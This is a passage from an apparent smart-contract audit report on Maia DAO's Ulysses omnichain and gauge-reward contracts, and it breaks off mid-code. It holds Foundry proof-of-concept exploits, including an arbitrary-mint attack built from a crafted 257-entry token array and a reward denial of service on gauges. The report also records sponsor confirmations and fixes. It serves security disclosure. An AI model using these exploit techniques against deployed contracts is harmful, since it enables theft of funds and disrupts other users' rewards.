Here, it's true `amount > 0`; however, `_dParams.hToken` is the first entry `hTokens[0]` of the attack vector's `hTokens[]` array. Therefore, it is a valid address and `isLocalToken(...)` will return "true" and will be negated by `!`, which will make the statement "false" because of `&&`. Therefore, it is bypassed.

The third check is:

    (_dParams.deposit > 0 && !IPort(_localPortAddress).isUnderlyingToken(_dParams.token, _fromChain))

Here, it's true `deposit > 0`; however, `_dParams.token` is the second entry `hTokens[1]` of the attack vector's `hTokens[]` array. Therefore, it is a valid underlying address and `isUnderlyingToken(...)` will return "true" and will be negated by `!`, which will make the statement "false" because of `&&`. Therefore, it is bypassed.

Entire function `checkParams(...)`:

```solidity
function checkParams(address _localPortAddress, DepositParams memory _dParams, uint24 _fromChain)
        internal
        view
        returns (bool)
    {
        if (
            (_dParams.amount < _dParams.deposit) //Deposit can't be greater than amount.
                || (_dParams.amount > 0 && !IPort(_localPortAddress).isLocalToken(_dParams.hToken, _fromChain)) //Check local exists.
                || (_dParams.deposit > 0 && !IPort(_localPortAddress).isUnderlyingToken(_dParams.token, _fromChain)) //Check underlying exists.
        ) {
            return false;
        }
        return true;
    }
```

Now, back to `bridgeIn(...)` in `RootBridgeAgent`, we get the `globalAddress` for `_dParams.hToken` (again this is the valid `hToken[0]` address from Branch Chain) and `bridgeToRoot(...)` is called that resides in `RootPort.sol`.

```solidity
		//Get global address
    address globalAddress = IPort(localPortAddress).getGlobalTokenFromLocal(_dParams.hToken, _fromChain);

    //Check if valid asset
    if (globalAddress == address(0)) revert InvalidInputParams();

    //Move hTokens from Branch to Root + Mint Sufficient hTokens to match new port deposit
    IPort(localPortAddress).bridgeToRoot(_recipient, globalAddress, _dParams.amount, _dParams.deposit, _fromChain);
```

The function `bridgeToRoot(...)` will check if the `globalAddress` is valid and it is since we got it from the valid `hTokens[0]` entry in the constructed attack. Then, `_amount - _deposit = 0`; therefore, no tokens will be transferred and finally, the critical line `if (_deposit > 0) mint(_recipient, _hToken, _deposit, _fromChainId)`. Here, `_deposit` is the malicious address payload that was packed to bytes and then unpacked and cast to `uint256`. Then, `_hToken` is the global address that we got from `hTokens[0]` back in the unpacking. Therefore, whatever the value of the `uint256` representation of the malicious address is will be minted to the attacker.

### Coded PoC

Copy the two functions `testArbitraryMint` and `_prepareAttackVector` in `test/ulysses-omnichain/RootTest.t.sol`  and place them in the `RootTest` contract after the setup.

Execute with `forge test --match-test testArbitraryMint -vv`

The result is `800000000` in minted tokens for free in the attacker's `VirtualAccount`.

```solidity
function testArbitraryMint() public {
        
        // setup function used by developers to add local/global tokens in the system
        testAddLocalTokenArbitrum();

        // set attacker address & mint 1 ether to cover gas cost
        address attacker = address(0xAAAA);
        hevm.deal(attacker, 1 ether);
        
        // get avaxMockAssetHtoken global address that's on the Root
        address globalAddress = rootPort.getGlobalTokenFromLocal(avaxMockAssethToken, avaxChainId);
    
        // prepare attack vector
        bytes memory params = "";
        DepositMultipleInput memory dParams = _prepareAttackVector();
        uint128 remoteExecutionGas = 200_000_000_0;

        console2.log("------------------");
        console2.log("------------------");
        console2.log("ARBITRARY MINT LOG");

        console2.log("Attacker address", attacker);
        console2.log("Avax h token address",avaxMockAssethToken);
        console2.log("Avax underlying address", address(avaxMockAssetToken));

        console2.log("Attacker h token balance", ERC20hTokenBranch(avaxMockAssethToken).balanceOf(attacker));
        console2.log("Attacker underlying balance", avaxMockAssetToken.balanceOf(attacker));

        // execute attack
        hevm.prank(attacker);
        avaxMulticallBridgeAgent.callOutSignedAndBridgeMultiple{value: 0.00005 ether}(params, dParams, remoteExecutionGas);
        
        // get attacker's virtual account address
        address vaccount = address(rootPort.getUserAccount(attacker));

        console2.log("Attacker h token balance avax", ERC20hTokenBranch(avaxMockAssethToken).balanceOf(attacker));        
        console2.log("Attacker underlying balance avax", avaxMockAssetToken.balanceOf(attacker));

        console2.log("Attacker h token balance root", ERC20hTokenRoot(globalAddress).balanceOf(vaccount));
    
        console2.log("ARBITRARY MINT LOG END");
		    console2.log("------------------");

    }

    function _prepareAttackVector() internal view returns(DepositMultipleInput memory) {
        
        // hToken address
        address addr1 = avaxMockAssethToken;

        // underlying address
        address addr2 = address(avaxMockAssetToken);

        // 0x2FAF0800 when encoded to bytes and then cast to uint256 = 800000000 
        address malicious_address = address(0x2FAF0800);
        
        uint256 amount1 = 0;
        uint256 amount2 = 0;

        uint num = 257;
        address[] memory htokens = new address[](num);
        address[] memory tokens = new address[](num);
        uint256[] memory amounts = new uint256[](num);
        uint256[] memory deposits = new uint256[](num);

        for(uint i=0; i<num; i++) {
            htokens[i] = addr1;
            tokens[i] = addr2;
            amounts[i] = amount1;
            deposits[i] = amount2;
        }
    
        // address of the underlying token
        htokens[1] = addr2;
      
        // copy of entry containing the arbitrary number of tokens
        htokens[2] = malicious_address;
        
        // entry containing the arbitrary number of tokens -> this one will be actually fed to mint on Root
        htokens[3] = malicious_address;
       
        uint24 toChain = rootChainId;

        // create input
        DepositMultipleInput memory input = DepositMultipleInput({
            hTokens:htokens,
            tokens:tokens,
            amounts:amounts,
            deposits:deposits,
            toChain:toChain
        });

        return input;

    }
```

### Recommendation

Enforce stricter checks around input param validation on bridging multiple tokens.

### Assessed type

Invalid Validation

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/643#issuecomment-1632811249):**
 > The maximum 256 length should be enforced so the encoded `N(length)` value is truthful. In addition,  `CheckParams` should check if the underlying token matches the `hToken` instead of only checking if it's an underlying token in the system.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/643#issuecomment-1708825214):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/commit/17bc7e7bbd78a50ed806c33dbf4be89171462a67).

***

## [[H-13] Re-adding a deprecated gauge in a new epoch before calling `updatePeriod()`/`queueRewardsForCycle()` will leave some gauges without rewards](https://github.com/code-423n4/2023-05-maia-findings/issues/639)
*Submitted by [Voyvoda](https://github.com/code-423n4/2023-05-maia-findings/issues/639)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-20/ERC20Gauges.sol#L174-L181> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-20/ERC20Gauges.sol#L407-L422> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/rewards/rewards/FlywheelGaugeRewards.sol#L72-L104>

### Impact

One or more gauges will remain without rewards. A malicious user can DOS a selected gauge from receiving rewards.

### Proof of Concept

When a gauge is deprecated, its weight is subtracted from `totalWeight`; however, the weight of the gauge itself could remain different from 0 (it's up to the users to remove their votes). That's reflected in `_addGauge()`.

```solidity
function _addGauge(address gauge) internal returns (uint112 weight) {
        // some code ... 

        // Check if some previous weight exists and re-add to the total. Gauge and user weights are preserved.
        weight = _getGaugeWeight[gauge].currentWeight;
        if (weight > 0) {
            _writeGaugeWeight(_totalWeight, _add112, weight, currentCycle);
        }

        emit AddGauge(gauge);
    }
```

When `addGauge(...)` is invoked to re-add a gauge that was previously deprecated and still contains votes, `_writeGaugeWeight(...)` is called to add the gauge's weight to `totalWeight`. When the write operation to `totalWeight` is performed during a new cycle, but before `updatePeriod` or `queueRewardsForCycle()` are called, we will have:
- `totalWeight.storedWeight = currentWeight` (the weight before the update),
- `totalWeight.currentWeight = newWeight` (the new weight) and
- `totalWeight.currentCycle = cycle` (the updated new cycle).

The problem is, that when now `queueRewardsForCycle()` is called and subsequently in the call chain `calculateGaugeAllocation(...)` is called (which in turn will request the `totalWeight` through `_getStoredWeight(_totalWeight, currentCycle)`), we will read the old `totalWeight` (i.e. `totalWeight.storedWeight`) because `totalWeight.currentCycle < currentCycle` is false, as the cycle was already updated during the `addGauge(...)` call.

```solidity
function _getStoredWeight(Weight storage gaugeWeight, uint32 currentCycle) internal view returns (uint112) {
        return gaugeWeight.currentCycle < currentCycle ? gaugeWeight.currentWeight : gaugeWeight.storedWeight;
    }
```

This will now cause a wrong calculation of the rewards since we have 1 extra gauge, but the value of `totalWeight` is less than what it is in reality. Therefore, the sum of the rewards among the gauges for the cycle will be more than the total sum allocated by the minter. In other words, the function in the code snippet below will be called for every gauge, including the re-added, but `total` is less than what it has to be.

```solidity
function calculateGaugeAllocation(address gauge, uint256 quantity) external view returns (uint256) {
        if (_deprecatedGauges.contains(gauge)) return 0;
        uint32 currentCycle = _getGaugeCycleEnd();

        uint112 total = _getStoredWeight(_totalWeight, currentCycle);
        uint112 weight = _getStoredWeight(_getGaugeWeight[gauge], currentCycle);
        return (quantity * weight) / total;
    }
```

This can now cause several areas of concern. 

First, in the presented scenario where a gauge is re-added with weight > 0 before`queueRewardsForCycle(...)`, the last gauge (or perhaps the last few gauges, depending on the distribution of weight) among the active gauges that calls `getAccruedRewards()` won't receive awards since there will be less rewards than what's recorded in the gauge state.

Second, in a scenario where we might have several gauges is with a "whale" gauge that holds a majority of votes and therefore, will have a large amount of rewards. A malicious actor can monitor for when a gauge is re-added and front run `getAccruedRewards()` (potentially through `newEpoch()` in `BaseV2Gauge`) for all gauges, except the "whale" and achieving a DOS where the "whale" gauge won't receive the rewards for the epoch. Therefore, the reputation of it will be damaged. This can be done for any gauge, but will have a more significant impact in the case where a lot of voters are denied their awards.

### Coded PoC

**Scenario 1**

Initially, there are 2 gauges with 75%/25% split of the votes. The gauge with 25% of the votes is removed for 1 cycle and then re-added during a new cycle but before queuing of the rewards. The 25% gauge withdraws its rewards and the 75% gauge is bricked and can't withdraw rewards.

Copy the functions `testInitialGauge` & `testDeprecatedAddedGauge` and `helper_gauge_state` in `/test/rewards/rewards/FlywheelGaugeRewardsTest.t.sol`.

Add `import "lib/forge-std/src/console.sol";` to the imports.

Execute with `forge test --match-test testDeprecatedAddedGauge -vv`.

Result: gauge 2 will revert after trying to collect rewards after the 3rd cycle, since gauge 1 was re-added before queuing rewards.

```solidity
function testInitialGauge() public {
        uint256 amount_rewards;
        
        // rewards is 100e18

        // add 2 gauges, 25%/75% split
        gaugeToken.addGauge(gauge1);
        gaugeToken.addGauge(gauge2);
        gaugeToken.incrementGauge(gauge1, 1e18);
        gaugeToken.incrementGauge(gauge2, 3e18);
        
        console.log("--------------Initial gauge state--------------");
        helper_gauge_state();

        // do one normal cycle of rewards
        hevm.warp(block.timestamp + 1000);
        amount_rewards = rewards.queueRewardsForCycle();
        
        console.log("--------------After 1st queueRewardsForCycle state--------------");
        console.log('nextCycleQueuedRewards', amount_rewards);
        helper_gauge_state();
        
        // collect awards
        hevm.prank(gauge1);
        rewards.getAccruedRewards();
        hevm.prank(gauge2);
        rewards.getAccruedRewards();

        console.log("--------------After getAccruedRewards state--------------");
        helper_gauge_state();
    }

    function testDeprecatedAddedGauge() public {
        uint256 amount_rewards;
        // setup + 1 normal cycle
        testInitialGauge();
        // remove gauge
        gaugeToken.removeGauge(gauge1);

        // do one more normal cycle with only 1 gauge
        hevm.warp(block.timestamp + 1000);
        amount_rewards = rewards.queueRewardsForCycle();
        console.log("--------------After 2nd queueRewardsForCycle state--------------");
        console.log('nextCycleQueuedRewards', amount_rewards);
        // examine state
        helper_gauge_state();

        hevm.prank(gauge2);
        rewards.getAccruedRewards();
        console.log("--------------After getAccruedRewards state--------------");
        // examine state
        helper_gauge_state();

        // A new epoch can start for 1 more cycle
        hevm.warp(block.timestamp + 1000);
        
        // Add the gauge back, but before rewards are queued
        gaugeToken.addGauge(gauge1);
        amount_rewards = rewards.queueRewardsForCycle();

        console.log("--------------After 3rd queueRewardsForCycle state--------------");
        // examine state
        console.log('nextCycleQueuedRewards', amount_rewards);
        helper_gauge_state();

        // this is fine
        hevm.prank(gauge1);
        rewards.getAccruedRewards();

        // this reverts
        hevm.prank(gauge2);
        rewards.getAccruedRewards();

        console.log("--------------After getAccruedRewards state--------------");
        // examine state
        helper_gauge_state();

    }
function helper_gauge_state() public view {
        console.log('FlywheelRewards balance', rewardToken.balanceOf(address(rewards)));
        console.log('gaugeCycle', rewards.gaugeCycle());
        address[] memory gs = gaugeToken.gauges();
        for(uint i=0; i<gs.length; i++) {
            console.log('-------------');
            (uint112 prior1, uint112 stored1, uint32 cycle1) = rewards.gaugeQueuedRewards(ERC20(gs[i]));
            console.log("Gauge ",i+1);
            console.log("priorRewards",prior1);
            console.log("cycleRewards",stored1); 
            console.log("storedCycle",cycle1);
        }
        console.log('-------------');
    }
```

**Scenario 2**

Initially, there are 4 gauges with (2e18 | 2e18 | 6e18 | 4e18) votes respectively. The gauge with 4e18 votes is removed for 1 cycle and then re-added during a new cycle but before queuing of the rewards. The 6e18 gauge withdraws its rewards and the 4e18 gauge withdraws its rewards. The two gauges with 2e18 votes are bricked and can't withdraw rewards.

Copy the functions `testInitialGauge2`, `testDeprecatedAddedGauge2` and `helper_gauge_state` in `/test/rewards/rewards/FlywheelGaugeRewardsTest.t.sol`.

Execute with `forge test --match-test testDeprecatedAddedGauge2 -vv`.

Result: the 2 gauges with 2e18 votes will revert after trying to collect rewards.

```solidity
function testInitialGauge2() public {
        uint256 amount_rewards;
        
        // rewards is 100e18
        
        // add 4 gauges, 2x/2x/6x/4x split
        gaugeToken.addGauge(gauge1);
        gaugeToken.addGauge(gauge2);
        gaugeToken.addGauge(gauge3);
        gaugeToken.addGauge(gauge4);

        gaugeToken.incrementGauge(gauge1, 2e18);
        gaugeToken.incrementGauge(gauge2, 2e18);
        gaugeToken.incrementGauge(gauge3, 6e18);
        gaugeToken.incrementGauge(gauge4, 4e18);

        
        console.log("--------------Initial gauge state--------------");
        helper_gauge_state();

        // do one normal cycle of rewards
        hevm.warp(block.timestamp + 1000);
        amount_rewards = rewards.queueRewardsForCycle();
        
        console.log("--------------After 1st queueRewardsForCycle state--------------");
        console.log('nextCycleQueuedRewards', amount_rewards);
        helper_gauge_state();
        
        // collect awards
        hevm.prank(gauge1);
        rewards.getAccruedRewards();
        hevm.prank(gauge2);
        rewards.getAccruedRewards();
        hevm.prank(gauge3);
        rewards.getAccruedRewards();
        hevm.prank(gauge4);
        rewards.getAccruedRewards();

        console.log("--------------After getAccruedRewards state--------------");
        helper_gauge_state();
    }
    function testDeprecatedAddedGauge2() public {
        uint256 amount_rewards;
        // setup + 1 normal cycle
        testInitialGauge2();
        // remove gauge
        gaugeToken.removeGauge(gauge4);

        // do one more normal cycle with only 3 gauges
        hevm.warp(block.timestamp + 1000);
        amount_rewards = rewards.queueRewardsForCycle();
        console.log("--------------After 2nd queueRewardsForCycle state--------------");
        console.log('nextCycleQueuedRewards', amount_rewards);
        // examine state
        helper_gauge_state();

        hevm.prank(gauge1);
        rewards.getAccruedRewards();
        hevm.prank(gauge2);
        rewards.getAccruedRewards();
        hevm.prank(gauge3);
        rewards.getAccruedRewards();
        console.log("--------------After getAccruedRewards state--------------");
        // examine state
        helper_gauge_state();

        // A new epoch can start for 1 more cycle
        hevm.warp(block.timestamp + 1000);
        
        // Add the gauge back, but before rewards are queued
        gaugeToken.addGauge(gauge4);
        amount_rewards = rewards.queueRewardsForCycle();

        console.log("--------------After 3rd queueRewardsForCycle state--------------");
        console.log('nextCycleQueuedRewards', amount_rewards);
        // examine state
        helper_gauge_state();

        // this is fine
        hevm.prank(gauge3);
        rewards.getAccruedRewards();
        
        // this is fine
        hevm.prank(gauge4);
        rewards.getAccruedRewards();

        // this reverts
        hevm.prank(gauge1);
        rewards.getAccruedRewards();
        
        // this reverts, same weight as gauge 1
        hevm.prank(gauge2);
        rewards.getAccruedRewards();

        console.log("--------------After getAccruedRewards state--------------");
        // examine state
        helper_gauge_state();

    }
function helper_gauge_state() public view {
        console.log('FlywheelRewards balance', rewardToken.balanceOf(address(rewards)));
        console.log('gaugeCycle', rewards.gaugeCycle());
        address[] memory gs = gaugeToken.gauges();
        for(uint i=0; i<gs.length; i++) {
            console.log('-------------');
            (uint112 prior1, uint112 stored1, uint32 cycle1) = rewards.gaugeQueuedRewards(ERC20(gs[i]));
            console.log("Gauge ",i+1);
            console.log("priorRewards",prior1);
            console.log("cycleRewards",stored1); 
            console.log("storedCycle",cycle1);
        }
        console.log('-------------');
    }
```

### Recommendation

When a new cycle starts, make sure gauges are re-added after rewards are queued in a cycle.

### Assessed type

Timing

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/639#issuecomment-1632915459)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/639#issuecomment-1708825650):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/639).

***

## [[H-14] User may underpay for the remote call `ExecutionGas` on the root chain](https://github.com/code-423n4/2023-05-maia-findings/issues/612)
*Submitted by [Evo](https://github.com/code-423n4/2023-05-maia-findings/issues/612), also found by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/297)*

User may underpay for the remote call `ExecutionGas`. Meaning, the incorrect `minExecCost` is being deposited at the `_replenishGas` call inside `_payExecutionGas` function.

### Proof of Concept

Multichain contracts - `anycall` v7 lines:<br>
<https://github.com/anyswap/multichain-smart-contracts/blob/645d0053d22ed63005b9414b5610879094932304/contracts/anycall/v7/AnycallV7Upgradeable.sol#L265>
<br><https://github.com/anyswap/multichain-smart-contracts/blob/645d0053d22ed63005b9414b5610879094932304/contracts/anycall/v7/AnycallV7Upgradeable.sol#L167>
<br><https://github.com/anyswap/multichain-smart-contracts/blob/645d0053d22ed63005b9414b5610879094932304/contracts/anycall/v7/AnycallV7Upgradeable.sol#L276>

Ulysses-omnichain contract lines:
<br><https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L811>
<br><https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L851>

The user is paying the incorrect minimum execution cost for `Anycall Mutlichain` [L820](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L820), as the value of `minExecCost` is calculated incorrectly. The `AnycallV7` protocol considers a premium fee (`_feeData.premium`) on top of the TX gas price, which is not considered here.

Let's get into the flow from the start. When `anyExec` is called by the executor ([L265](https://github.com/anyswap/multichain-smart-contracts/blob/645d0053d22ed63005b9414b5610879094932304/contracts/anycall/v7/AnycallV7Upgradeable.sol#L265)), the `anycall` request that comes from a source chain includes the `chargeDestFee` modifier.

```Solidity
    function anyExec(
        address _to,
        bytes calldata _data,
        string calldata _appID,
        RequestContext calldata _ctx,
        bytes calldata _extdata
    )
        external
        virtual
        lock
        whenNotPaused
        chargeDestFee(_to, _ctx.flags)
        onlyMPC
    {
        IAnycallConfig(config).checkExec(_appID, _ctx.from, _to);
```

Now, the `chargeDestFee` modifier will call the `chargeFeeOnDestChain` function as well at [L167](https://github.com/anyswap/multichain-smart-contracts/blob/645d0053d22ed63005b9414b5610879094932304/contracts/anycall/v7/AnycallV7Upgradeable.sol#L167).

```Solidity
/// @dev Charge an account for execution costs on this chain
/// @param _from The account to charge for execution costs
    modifier chargeDestFee(address _from, uint256 _flags) {
        if (_isSet(_flags, AnycallFlags.FLAG_PAY_FEE_ON_DEST)) {
            uint256 _prevGasLeft = gasleft();
            _;
            IAnycallConfig(config).chargeFeeOnDestChain(_from, _prevGasLeft);
        } else {
            _;
        }
    }
```

As you see here in [L198-L210](https://github.com/anyswap/multichain-smart-contracts/blob/645d0053d22ed63005b9414b5610879094932304/contracts/anycall/v7/AnycallV7Config.sol#L198C1-L210), inside the `chargeFeeOnDestChain` function includes `_feeData.premium` for the execution cost `totalCost`.

```Solidity
function chargeFeeOnDestChain(address _from, uint256 _prevGasLeft)
        external
        onlyAnycallContract
    {
        if (!_isSet(mode, FREE_MODE)) {
            uint256 gasUsed = _prevGasLeft + EXECUTION_OVERHEAD - gasleft();
            uint256 totalCost = gasUsed * (tx.gasprice + _feeData.premium);
            uint256 budget = executionBudget[_from];
            require(budget > totalCost, "no enough budget");
            executionBudget[_from] = budget - totalCost;
            _feeData.accruedFees += uint128(totalCost);
        }
    }
```

The conclusion: the `minExecCost` calculation doesn't include `_feeData.premium` at [L811](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L811), according to the Multichain `AnycallV7` protocol.

You should include `_feeData.premium` in `minExecCost` as well. The same as in [L204](https://github.com/anyswap/multichain-smart-contracts/blob/645d0053d22ed63005b9414b5610879094932304/contracts/anycall/v7/AnycallV7Config.sol#L204).

    uint256 totalCost = gasUsed * (tx.gasprice + _feeData.premium);

This also applicable on:<br>
`_payFallbackGas()` in `RootBridgeAgent` at [L836](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L836).<br>
`_payFallbackGas()` in `BranchBridgeAgent` at [L1066](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1066).<br>
`_payExecutionGas` in `BranchBridgeAgent` at [L1032](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1032).

### Recommended Mitigation Steps

Add `_feeData.premium` to `minExecCost` at the `_payExecutionGas` function [L811](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L811).

You need to get `_feeData.premium` first from `AnycallV7Config` by the `premium(`) function at [L286-L288](https://github.com/anyswap/multichain-smart-contracts/blob/645d0053d22ed63005b9414b5610879094932304/contracts/anycall/v7/AnycallV7Config.sol#L286-L288).

```
uint256 minExecCost = (tx.gasprice  + _feeData.premium) * (MIN_EXECUTION_OVERHEAD + _initialGas - gasleft()));

```

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/612#issuecomment-1655675080):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[H-15] The difference between `gasLeft` and `gasAfterTransfer` is greater than `TRANSFER_OVERHEAD`, causing `anyExecute` to always fail](https://github.com/code-423n4/2023-05-maia-findings/issues/610)
*Submitted by [Koolex](https://github.com/code-423n4/2023-05-maia-findings/issues/610)*

In `_payExecutionGas`,  there is the following code:

```solidity
///Save gas left
	uint256 gasLeft = gasleft();
	.
	.
	. 
	.
//Transfer gas remaining to recipient
	SafeTransferLib.safeTransferETH(_recipient, gasRemaining - minExecCost);
	//Save Gas
	uint256 gasAfterTransfer = gasleft();
	//Check if sufficient balance
	if (gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD) {
		_forceRevert();
		return;
	}
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1029-L1054>

It checks if the difference between `gasLeft` and `gasAfterTransfer` is greater than `TRANSFER_OVERHEAD`. Then, it calls `_forceRevert()` so that `Anycall Executor` reverts the call. This check has been introduced to prevent any arbitrary code executed in the `_recipient's fallback` (this was confirmed by the sponsor). However, the condition `gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD` is always true. `TRANSFER_OVERHEAD` is `24_000`.

```solidity
uint256 internal constant TRANSFER_OVERHEAD = 24_000;
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L139>

And the **gas spent between `gasLeft` and `gasAfterTransfer` is nearly `70_000` which is higher than `24_000`**. Thus, causing the function to always revert. Function `_payExecutionGas` is called by `anyExecute` which is called by the `Anycall Executor`. This means `anyExecute` will also fail. This happens because the `gasLeft` value is stored before replenishing gas and not before the transfer.

### Proof of Concept

This PoC is independent from the codebase (but uses the same code). There is one contract simulating `BranchBridgeAgent.anyExecute`.

When we run the test, `anyExecute` will revert because `gasLeft - gasAfterTransfer` is always greater than `TRANSFER_OVERHEAD` (`24_000`).

Here is the output of the test:

```sh
[PASS] test_anyexecute_always_revert_bc_transfer_overhead() (gas: 124174)
Logs:
  (gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD) => true
  gasLeft - gasAfterTransfer = 999999999999979606 - 999999999999909238 = 70368

Test result: ok. 1 passed; 0 failed; finished in 1.88ms
```

### Explanation

The `BranchBridgeAgent.anyExecute` method depends on the following external calls:

1. `AnycallExecutor.context()`
2. `AnycallProxy.config()`
3. `AnycallConfig.executionBudget()`
4. `AnycallConfig.withdraw()`
5. `AnycallConfig.deposit()`
6. `WETH9.withdraw()`

For this reason, I've copied the same code from [multichain-smart-contracts](https://github.com/anyswap/multichain-smart-contracts). For `WETH9`, I've used the contract from the codebase which has minimal code.

Please note that:

- **tx.gasprice** is replaced with a fixed value in the `_payExecutionGas` method, as it is not available in Foundry.
- In `_replenishGas`, reading the config via `IAnycallProxy(local`AnyCall`Address).config()` is replaced with an immediate call for simplicity. In other words, avoiding a proxy to make the PoC simpler and shorter. However, if done with a proxy, the gas used would increase. So in both ways, it is in favor of the PoC.
- In `_forceRevert`, we call `anycallConfig`, immediately skipping the returned value from `AnycallProxy`. This is irrelevant for this PoC.

### The Coded PoC

- `Foundry.toml
`
```sh
	[profile.default]
	solc = '0.8.17'
	src = 'solidity'
	test = 'solidity/test'
	out = 'out'
	libs = ['lib']
	fuzz_runs = 1000
	optimizer_runs = 10_000
```

- `.gitmodules`

```sh
	[submodule "lib/ds-test"]
		path = lib/ds-test
		url = https://github.com/dapphub/ds-test
		branch = master
	[submodule "lib/forge-std"]
		path = lib/forge-std
		url = https://github.com/brockelmore/forge-std
		branch = master
```

- `remappings.txt`

```sh
	ds-test/=lib/ds-test/src
	forge-std/=lib/forge-std/src
```

- Test File:

<details>

```solidity
// PoC => Maia OmniChain: anyExecute always revert in BranchBridgeAgent
pragma solidity >=0.8.4 <0.9.0;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";

import {DSTest} from "ds-test/test.sol";

library SafeTransferLib {
    /*´:°•.°+.*•´.*:˚.°*.˚•´.°:°•.°•.*•´.*:˚.°*.˚•´.°:°•.°+.*•´.*:*/
    /-                     CUSTOM ERRORS                        */
    /*.•°:°.´+˚.*°.˚:*.´•*.+°.•°:´*.´•*.•°.•°:°.´:•˚°.*°.˚:*.´+°.•*/

    /// @dev The ETH transfer has failed.
    error ETHTransferFailed();

    /// @dev The ERC20 `transferFrom` has failed.
    error TransferFromFailed();

    /// @dev The ERC20 `transfer` has failed.
    error TransferFailed();

    /// @dev The ERC20 `approve` has failed.
    error ApproveFailed();

    /*´:°•.°+.*•´.*:˚.°*.˚•´.°:°•.°•.*•´.*:˚.°*.˚•´.°:°•.°+.*•´.*:*/
    /-                       CONSTANTS                          */
    /*.•°:°.´+˚.*°.˚:*.´•*.+°.•°:´*.´•*.•°.•°:°.´:•˚°.*°.˚:*.´+°.•*/

    /// @dev Suggested gas stipend for contract receiving ETH
    /// that disallows any storage writes.
    uint256 internal constant _GAS_STIPEND_NO_STORAGE_WRITES = 2300;

    /// @dev Suggested gas stipend for contract receiving ETH to perform a few
    /// storage reads and writes, but low enough to prevent griefing.
    /// Multiply by a small constant (e.g. 2), if needed.
    uint256 internal constant _GAS_STIPEND_NO_GRIEF = 100000;

    /*´:°•.°+.*•´.*:˚.°*.˚•´.°:°•.°•.*•´.*:˚.°*.˚•´.°:°•.°+.*•´.*:*/
    /-                     ETH OPERATIONS                       */
    /*.•°:°.´+˚.*°.˚:*.´•*.+°.•°:´*.´•*.•°.•°:°.´:•˚°.*°.˚:*.´+°.•*/

    /// @dev Sends `amount` (in wei) ETH to `to`.
    /// Reverts upon failure.
    ///
    /// Note: This implementation does NOT protect against gas griefing.
    /// Please use `forceSafeTransferETH` for gas griefing protection.
    function safeTransferETH(address to, uint256 amount) internal {
        /// @solidity memory-safe-assembly
        assembly {
            // Transfer the ETH and check if it succeeded or not.
            if iszero(call(gas(), to, amount, 0, 0, 0, 0)) {
                // Store the function selector of `ETHTransferFailed()`.
                mstore(0x00, 0xb12d13eb)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
        }
    }

    /// @dev Force sends `amount` (in wei) ETH to `to`, with a `gasStipend`.
    /// The `gasStipend` can be set to a low enough value to prevent
    /// storage writes or gas griefing.
    ///
    /// If sending via the normal procedure fails, force sends the ETH by
    /// creating a temporary contract which uses `SELFDESTRUCT` to force send the ETH.
    ///
    /// Reverts if the current contract has insufficient balance.
    function forceSafeTransferETH(
        address to,
        uint256 amount,
        uint256 gasStipend
    ) internal {
        /// @solidity memory-safe-assembly
        assembly {
            // If insufficient balance, revert.
            if lt(selfbalance(), amount) {
                // Store the function selector of `ETHTransferFailed()`.
                mstore(0x00, 0xb12d13eb)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Transfer the ETH and check if it succeeded or not.
            if iszero(call(gasStipend, to, amount, 0, 0, 0, 0)) {
                mstore(0x00, to) // Store the address in scratch space.
                mstore8(0x0b, 0x73) // Opcode `PUSH20`.
                mstore8(0x20, 0xff) // Opcode `SELFDESTRUCT`.
                // We can directly use `SELFDESTRUCT` in the contract creation.
                // Compatible with `SENDALL`: https://eips.ethereum.org/EIPS/eip-4758
                if iszero(create(amount, 0x0b, 0x16)) {
                    // To coerce gas estimation to provide enough gas for the `create` above.
                    if iszero(gt(gas(), 1000000)) {
                        revert(0, 0)
                    }
                }
            }
        }
    }

    /// @dev Force sends `amount` (in wei) ETH to `to`, with a gas stipend
    /// equal to `_GAS_STIPEND_NO_GRIEF`. This gas stipend is a reasonable default
    /// for 99% of cases and can be overridden with the three-argument version of this
    /// function if necessary.
    ///
    /// If sending via the normal procedure fails, force sends the ETH by
    /// creating a temporary contract which uses `SELFDESTRUCT` to force send the ETH.
    ///
    /// Reverts if the current contract has insufficient balance.
    function forceSafeTransferETH(address to, uint256 amount) internal {
        // Manually inlined because the compiler doesn't inline functions with branches.
        /// @solidity memory-safe-assembly
        assembly {
            // If insufficient balance, revert.
